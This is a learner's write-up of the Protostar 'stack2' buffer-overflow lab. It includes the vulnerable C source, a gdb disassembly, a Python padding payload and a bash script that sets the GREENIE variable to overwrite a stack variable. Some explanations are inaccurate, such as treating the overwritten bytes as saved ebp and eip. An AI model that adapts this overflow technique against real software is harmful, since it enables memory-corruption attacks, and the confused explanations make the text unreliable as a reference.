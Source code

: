 # Stack2 - Buffer Overflow (Binary Exploitation)
## Owen Boreham
## 05/03/2021 (MM/DD/YYYY)

- Stack2 looks at environment variables, and how they can be set.
`This level is at /opt/protostar/bin/stack2`

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;                                            // Meaning that the variable can be changed at any time
  char buffer[64];                                                  // Creating a buffer for the stack
  char *variable;                                                   // Creating the variable(env) variable (pointer)

  variable = getenv("GREENIE");                                     // Looking for the environment variable "GREENIE"

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");     // If the variable does not exist, it throws an error
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Interesting getenv variable?

## Ideas

- *01: If we can make a shell script that creates the environment variable and a python script that will be our exploit to set the buffer to the same address as the variable ( maybe )

## Writeup

Since the stack2 source code is looking for an environment variable, in our shell script, we want to create an environment variable called GREENIE, but we aren't 100% sure what the value is supposed to be yet, but we can guess from the if statement at the end of the main function. In the if statement, it compares modified with `0x0d0a0d0a` which is hex for '\r\n\r\n'. With this knowledge, we know that the modified has to become `0x0d0a0d0a` which we can figure out the padding of those bytes in gdb.

If we take a look at the main function, we get:

```gdb
    (gdb) disassembl main 
    Dump of assembler code for function main:
    0x08048494 <main+0>:    push   ebp
    0x08048495 <main+1>:    mov    ebp,esp
    0x08048497 <main+3>:    and    esp,0xfffffff0
    0x0804849a <main+6>:    sub    esp,0x60
    0x0804849d <main+9>:    mov    DWORD PTR [esp],0x80485e0
    0x080484a4 <main+16>:   call   0x804837c <getenv@plt>
    0x080484a9 <main+21>:   mov    DWORD PTR [esp+0x5c],eax
    0x080484ad <main+25>:   cmp    DWORD PTR [esp+0x5c],0x0
    0x080484b2 <main+30>:   jne    0x80484c8 <main+52>
    0x080484b4 <main+32>:   mov    DWORD PTR [esp+0x4],0x80485e8
    0x080484bc <main+40>:   mov    DWORD PTR [esp],0x1
    0x080484c3 <main+47>:   call   0x80483bc <errx@plt>
    0x080484c8 <main+52>:   mov    DWORD PTR [esp+0x58],0x0
    0x080484d0 <main+60>:   mov    eax,DWORD PTR [esp+0x5c]
    0x080484d4 <main+64>:   mov    DWORD PTR [esp+0x4],eax
    0x080484d8 <main+68>:   lea    eax,[esp+0x18]
    0x080484dc <main+72>:   mov    DWORD PTR [esp],eax
0>> 0x080484df <main+75>:   call   0x804839c <strcpy@plt>
    0x080484e4 <main+80>:   mov    eax,DWORD PTR [esp+0x58]
    0x080484e8 <main+84>:   cmp    eax,0xd0a0d0a
    0x080484ed <main+89>:   jne    0x80484fd <main+105>
    0x080484ef <main+91>:   mov    DWORD PTR [esp],0x8048618
    0x080484f6 <main+98>:   call   0x80483cc <puts@plt>
    0x080484fb <main+103>:  jmp    0x8048512 <main+126>
    0x080484fd <main+105>:  mov    edx,DWORD PTR [esp+0x58]
    0x08048501 <main+109>:  mov    eax,0x8048641
    0x08048506 <main+114>:  mov    DWORD PTR [esp+0x4],edx
    0x0804850a <main+118>:  mov    DWORD PTR [esp],eax
    0x0804850d <main+121>:  call   0x80483ac <printf@plt>
    0x08048512 <main+126>:  leave  
    0x08048513 <main+127>:  ret    
    End of assembler dump.
```

First, if we look at address `0x080484df` (0) we copy the value of `0x804839c`. We are setting the stack pointer to the value of the variable which in our case, makes this super simple.
What we are going to want to do is just like in Stack3, create a python script that will create a padding for the bytes that we want to set the modified variable to. So just like in Stack3, we are going to make a script that almost containes exactly the same as Stack3.

```py
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO"
ebp = "AAAA"
eip = struct.pack("I", 0x0d0a0d0a)

print(padding + ebp + eip)
```

First, we import struct so that we can get the set the instruction pointer to \r\n in eip. We then also make the padding only up to `OOOO` which gives enough space to add for the base pointer `AAAA`. We concatonate all of these together in the print statement. The output should be what we expect "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOAAAA(carage return ( 0x0d0a0d0a ))"

So now, all it takes is the shell script, or we could even just doing it all from the terminal.
If we just want to terminal, we can run:

```bash
user@protostar:~$ export GREENIE=$(cat /tmp/exp)
user@protostar:~$ /opt/protostar/bin/stack2
you have correctly modified the variable
```

Or we can make a shell script that will do it for us + some extra features.

```bash
#!/bin/bash

ENV=$GREENIE;
FILE="/opt/protostar/bin/stack2";
EXPLOIT="/tmp/exploit.py";
EXPLOITOUT="/tmp/exp";
PYTHON="/usr/bin/python";

if [[ $ENV ]];then
  echo "GREENIE already exists";
  if [[ $GREENIE == $(cat $EXPLOITOUT) ]]; then
    if [[ -f $FILE ]]; then
      echo;
      echo "OUTPUT:"; $FILE;
    else
      echo "$FILE Does not exist";
      exit 1;
    fi
  else
    if [[ -f $EXPLOIT ]]; then
      if [[ -f $PYTHON ]]; then
        $PYTHON $EXPLOIT > $EXPLOITOUT;      # Piping the output of the exploit script into a file called exp in the temp directory
        export GREENIE=$(cat $EXPLOITOUT);   # Setting the GREENIE environment variable to the contents of exp file
      else
        echo "Missing python";
        exit 1;
      fi
    else
      echo "$EXPLOIT Does not exist";
      exit 1;
    fi
  fi
else
  echo "GREENIE doesn't exist";
  echo "Creating GREENIE";
  if [[ -f $EXPLOIT ]]; then
    if [[ -f $PYTHON ]]; then
      $PYTHON $EXPLOIT > $EXPLOITOUT;      # Piping the output of the exploit script into a file called exp in the temp directory
      export GREENIE=$(cat $EXPLOITOUT);   # Setting the GREENIE environment variable to the contents of exp file
    else
      echo "Missing python";
      exit 1;
    fi
  else
    echo "$EXPLOIT Does not exist";
    exit 1;
  fi

  if [[ -f $FILE ]]; then
    echo;
    echo "OUTPUT:"; $FILE;
  else
    echo "$FILE Does not exist";
    exit 1;
  fi
fi
```

Thats it for this exploit, thanks for reading, especially since this is my 1st Buffer Overflow that I done on my own, no tutorials || other write-ups.
